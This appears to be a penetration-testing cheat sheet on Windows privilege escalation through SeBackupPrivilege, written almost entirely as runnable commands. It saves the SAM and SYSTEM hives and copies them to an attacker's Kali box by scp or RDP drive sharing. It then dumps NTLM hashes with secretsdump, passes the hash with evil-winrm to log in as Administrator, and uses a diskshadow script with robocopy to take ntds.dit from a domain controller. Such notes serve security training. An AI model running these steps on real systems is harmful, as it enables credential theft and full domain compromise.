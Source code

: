 # SeBackupPrivilege

Check privileges:

```powershell
whoami /priv
```

* SeBackupPrivilege must be present

[NLTM](../nltm.md)

#### Exploitation:

1. Create a temp directory:

```powershell
mkdir C:\temp
```

2. Copy the sam and system hive of HKLM to C:\temp and then download them.

```powershell
reg save hklm\sam C:\temp\sam.hive
```

and

```powershell
reg save hklm\system C:\temp\system.hive
```

3. Transfer files to kali machine

**Enable drive direction on RDP session:**

{% code overflow="wrap" %}
```sh
xfreerdp /v:192.168.224.220 /u:dave /p:lab +clipboard /cert:ignore /drive:KaliShare,/home/kali/share
```
{% endcode %}

**If SSH is available:**

```shell
sudo systemctl start ssh
#on kali
```

```powershell
scp C:\temp\sam.hive kali@192.168.X.X:/home/kali/
```

4. Obtain ntlm hashes:

{% code overflow="wrap" %}
```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
{% endcode %}

5. Use evil-winrm to pass the hash and connect as Local Administrator:

```sh
evil-winrm -i <ip> -u "Administrator" -H "<hash>"
```



If you're on a domain controller and notice your current user has `SeRestore` / `SeBackup` privilege, then you can access the `ntds.dit` (hashes of all domain accounts) by first:

{% code title="script.txt" %}
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
{% endcode %}

Storing the above in `script.txt`, then navigate to `C:\Windows\System32\`

Then run the following command:

```
.\diskshadow /s C:\Users\YOURUSER\Desktop\script.txt
```

You can then access the contents of `ntds` by doing a `robocopy`

{% code overflow="wrap" %}
```
robocopy /b E:\Windows\ntds C:\Users\YOURUSER\Desktop\ntds
```
{% endcode %}

You can then get the hashes similarly to how you would with the SAM / SYSTEM files

{% code overflow="wrap" %}
```
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```
{% endcode %}
